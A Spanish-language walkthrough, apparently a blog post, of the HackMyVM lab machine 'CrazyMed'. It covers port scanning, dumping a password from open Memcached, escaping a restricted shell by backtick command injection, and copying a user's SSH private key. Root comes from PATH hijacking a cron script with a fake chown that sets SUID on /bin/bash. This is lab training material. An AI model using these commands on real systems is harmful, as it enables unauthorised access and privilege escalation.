 ```yaml
---
layout: post
title: CrazyMed
date: 2022-11-25
categories: ["HMV"]
thumbnail: "assets/images/CrazyMed.png"
---
```


# CrazyMed [ Hack My VM ]

## Reconocimiento

**Descubrimiento de puertos y reconocimiento básico**
- `nmap -sS --min-rate 5000 192.168.1.107 -oG allPorts`
- `nmap -sCV -p80,4444,11211 192.168.1.107 -oN targeted`

No vemos nada interesante, sigamos investigando.

## Shell

Si nos conectamos con `NC` por el puerto `4444` veremos un panel que nos da la bienvenida, pero nos pide una contraseña que no tenemos, así que por el momento lo dejamos.

Vemos un puerto algo extraño abierto, `11211`, el cual pertenece a `MemCached`, un almacén de datos de la memoria. Vamos a ver si nos podemos conectar y obtener datos. Para ello utilizaré primero una herramienta llamada `memcdump` para ver los `items` disponibles:

- `apt install libmemcached-tools`
- `memcdump --server=192.168.1.107`

```
domain
server
log
conf_location
```
Bien! Vemos que hemos sido capaces de enumerar `items`, ahora podemos obtener su contenido con `memccat`, para ello haremos lo siguiente:

- `memccat --servers=192.168.1.107 log`

```
password: cr4zyM3d
```

Bien! Hemos sido capaces de obtener una contraseña! Ahora nos podemos conectar por el puerto `4444` con `NC` y con la contraseña encontrada para obtener acceso. Una vez ahí veremos que sólo podremos ejecutar cuatro comandos: `id`, `who`, `echo` y `clear`.

Tras varios intentos para saltarme la verificación del input y poder ejecutar más comandos llegué al acento grave (``` `` ```), gracias a esto podemos ejecutar más comandos de los permitidos.

- ```System command: echo `python3 --version` ```

```
Python 3.9.
```
Fantástico! Tras mirar el directorio con ls -la vi una carpeta llamada .ssh, por lo
que me metí dentro y había un archivo llamado id_rsa, por lo que con cat lo miré y
me lo copié a mi máquina para obtener una Shell siempre que quiera sin proporcionar
contraseña.

Bien! Ya estamos dentro de la máquina como brad!


## Subida de privilegios

Para obtener `root` en la máquina comencé por enumeración básica, la cual no sirvió de mucho, pero [`LinPEAS`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) me chivó que tenía permisos de escritura en `/usr/local/bin`, por lo que ya es algo interesante.

Me dispuse a ver los procesos en curso con `PSPY` y cada minuto se ejecutaba un proceso por el usuario `root`, el cual ejecutaba con Bash un `script` llamado `check_VM` situado en `/opt/`. Vamos a hecharle un ojo:

```
#! /bin/bash

#users flags
flags=(/root/root.txt /home/brad/user.txt)
for x in "${flags[@]}"
do
if [[ ! -f $x ]] ; then
echo "$x doesn't exist"
mcookie > $x
chmod 700 $x
fi
done

chown -R www-data:www-data /var/www/html

#bash_history => /dev/null
home=$(cat /etc/passwd |grep bash |awk -F: '{print $6}')

for x in $home
do
ln -sf /dev/null $x/.bash_history ; eccho "All's fine !"
done


find /var/log -name "*.log*" -exec rm -f {} +
```
Vemos que el binario chown se ejecuta de forma relativa y no absoluta, por lo que podemos hacer `Path Hijacking`. Para poder explotarlo nos dirigiremos a `/usr/local/bin/` y crearemos un archivo llamado `chown` con la siguiente instrucción:

- `echo "chmod u+s /bin/bash" > chown`

Una vez creado el archivo le damos permisos de ejecución con: `chmod +x chown` y esperamos unos segundos a que se vuelva a ejecutar la tarea. Una vez esperado hacemos `bash -p`.

Enhorabuena! Ya estamos como `root` en la máquina víctima de forma sencilla!
